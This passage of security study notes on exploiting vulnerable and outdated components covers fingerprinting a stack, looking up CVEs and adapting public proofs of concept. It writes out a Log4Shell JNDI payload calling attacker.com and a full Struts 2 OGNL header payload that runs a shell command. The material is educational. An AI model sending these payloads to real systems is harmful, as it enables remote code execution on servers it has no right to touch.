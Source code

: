    - **System-level Components:** Operating system, web servers, database management systems.
        
    - **Application-level Frameworks:** Spring, Django, Express, Ruby on Rails.
        
    - **JavaScript Libraries:** jQuery, React, Angular, Vue.js.
        
    - **Development Tooling:** Vulnerabilities in compilers, build tools, CI/CD platforms.
        

## 🧪 Exploitation Techniques

- **Step-by-step walkthrough of how it’s exploited**
    
    1. **Reconnaissance & Fingerprinting:**
        
        - An attacker identifies the target application's technology stack (web server, application server, OS, language, frameworks, and specific versions of libraries). This can be done via:
            
            - HTTP Headers (e.g., `Server`, `X-Powered-By`).
                
            - Error messages (revealing framework versions).
                
            - Static file analysis (e.g., JavaScript library filenames like `jquery-1.9.1.js`).
                
            - Automated scanners.
                
            - `robots.txt` or `sitemap.xml` (sometimes reveals framework paths).
                
    2. **Vulnerability Identification:**
        
        - Once versions are identified, the attacker consults public vulnerability databases (CVE Details, NVD, Exploit-DB, GitHub Security Advisories, Snyk Vulnerability DB) for known vulnerabilities (CVEs) related to those specific component versions.
            
        - They look for publicly available exploits or proof-of-concept (PoC) code.
            
    3. **Exploitation:**
        
        - The attacker adapts the PoC or crafts an exploit specific to the identified vulnerability. This exploit then leverages the component's flaw.
            
        - _Example:_ If an old version of a deserialization library is found, an attacker might craft an insecure serialized object to trigger RCE via that library. If a vulnerable image processing library is found, they might upload a specially crafted image that executes code.
            
    4. **Gain Initial Foothold:** Successful exploitation typically leads to RCE, information disclosure, authentication bypass, or denial of service, depending on the specific component vulnerability.
        
- **Payload examples (conceptual, dependent on specific CVE)**
    
    - **Log4j (CVE-2021-44228 - Log4Shell):**
        
        - `User-Agent: ${jndi:ldap://attacker.com:1389/a}` (Injects into logs, triggers JNDI lookup, leading to RCE).
            
    - **Apache Struts 2 RCE (e.g., CVE-2017-5638):**
        
        - Injecting OGNL expressions into HTTP headers like `Content-Type`: `Content-Type: %{(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.get DefaultMemberAccess().setAllowStaticMethodAccess(true)).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p= @java.lang.Runtime@getRuntime().exec(#cmds)).(#p.waitFor()).(#s2=@org.apache.commons.io.IOUtils@toString(#p.getInputStream())).(#s3=@org.apache.commons.io.IOUtils@toString(#p.getErrorStream())).(#header='X-Cmd-Response').(#resp=@org.apache.struts2.ServletActionContext@getResponse()).(#resp.setHeader(#header,#s2+'\\n'+#s3))}`
            